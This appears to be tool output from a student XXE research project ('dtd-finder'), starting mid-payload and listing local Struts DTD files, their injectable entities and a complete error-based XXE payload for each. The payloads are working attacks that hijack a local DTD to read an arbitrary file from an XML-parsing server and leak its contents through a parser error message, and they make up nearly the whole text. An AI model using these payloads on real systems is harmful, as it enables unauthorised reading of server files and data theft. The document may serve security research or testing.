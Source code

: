 ```
    %local_dtd;
]>
<message></message>
```

 --- 

**DTD File:** `//home/sagar/Main/MTech/SDE/Project/xmlvuln/dtd-finder/target/test-classes/struts/struts-config_1_3.dtd`

**Injectable entity:** `RequestScope`

**XXE Payload:**
```
<!DOCTYPE message [
    <!ENTITY % local_dtd SYSTEM "file:////home/sagar/Main/MTech/SDE/Project/xmlvuln/dtd-finder/target/test-classes/struts/struts-config_1_3.dtd">

    <!ENTITY % RequestScope '(aa) #IMPLIED>
        <!ENTITY &#x25; file SYSTEM "file:///YOUR_FILE">
        <!ENTITY &#x25; eval "<!ENTITY &#x26;#x25; error SYSTEM &#x27;file:///abcxyz/&#x25;file;&#x27;>">
        &#x25;eval;
        &#x25;error;
        <!ATTLIST attxx aa "bb"'>

    %local_dtd;
]>
<message></message>
```

 --- 

**DTD File:** `//home/sagar/Main/MTech/SDE/Project/xmlvuln/dtd-finder/target/test-classes/struts/struts-config_1_2.dtd`

**Injectable entity:** `AttributeName`

**XXE Payload:**
```
<!DOCTYPE message [
    <!ENTITY % local_dtd SYSTEM "file:////home/sagar/Main/MTech/SDE/Project/xmlvuln/dtd-finder/target/test-classes/struts/struts-config_1_2.dtd">

    <!ENTITY % AttributeName '(aa) #IMPLIED>
        <!ENTITY &#x25; file SYSTEM "file:///YOUR_FILE">
        <!ENTITY &#x25; eval "<!ENTITY &#x26;#x25; error SYSTEM &#x27;file:///abcxyz/&#x25;file;&#x27;>">
        &#x25;eval;
        &#x25;error;
        <!ATTLIST attxx aa "bb"'>

    %local_dtd;
]>
<message></message>
```
